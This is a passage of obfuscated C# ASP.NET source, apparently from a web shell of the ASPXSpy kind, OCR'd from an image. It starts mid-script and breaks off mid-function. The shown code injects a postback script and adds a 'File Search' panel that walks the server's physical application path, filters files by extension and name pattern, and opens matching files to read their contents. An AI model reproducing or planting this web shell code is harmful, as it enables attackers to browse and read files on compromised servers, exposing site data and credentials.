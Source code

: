 s+=@"theform.__FILE.value=eventArgument;";
s+=@"theform.submit();";
s+=@"} ";
s+=@"&lt;/scr"+"ipt&gt;";
page.RegisterStartupScript("",s);
}
protected void PPtK(object sender,EventArgs e)
{
WICxe();
yhv.Visible=true;
Bin_H2_Title.InnerText="File Search &gt;&gt;";
NaLJ.Value=Request.PhysicalApplicationPath;
oJiym.Visible=false;
}
protected void NBy(object sender,EventArgs e)
{
DirectoryInfo GQMM=new DirectoryInfo(NaLJ.Value);
if(!GQMM.Exists)
{
xseuB("Path invalid ! ");
return;
}
oog(GQMM);
xseuB("Search completed ! ");
}
public void oog(DirectoryInfo dir)
{
try
{
oJiym.Visible=true;
foreach(FileInfo Bin_Files in dir.GetFiles())
{
try
{
if(Bin_Files.FullName==Request.PhysicalPath)
{
continue;
}
if(!Regex.IsMatch(Bin_Files.Extension.Replace(".",""),"^("+UDLvA.Value+")$",RegexOptions.IgnoreCase))
{
continue;
}
if(Ven.SelectedItem.Value=="name")
{
if(rAQ.Checked)
{
if(Regex.IsMatch(Bin_Files.Name,iaMKl.Value,RegexOptions.IgnoreCase))
{
FJvQ(Bin_Files);
}
}
else
{
if(Bin_Files.Name.ToLower().IndexOf(iaMKl.Value.ToLower())!=-1)
{
Response.Write(Bin_Files.FullName);
FJvQ(Bin_Files);
}
}
}
else
{
StreamReader sr=new StreamReader(Bin_Files.FullName,Encoding.Default);
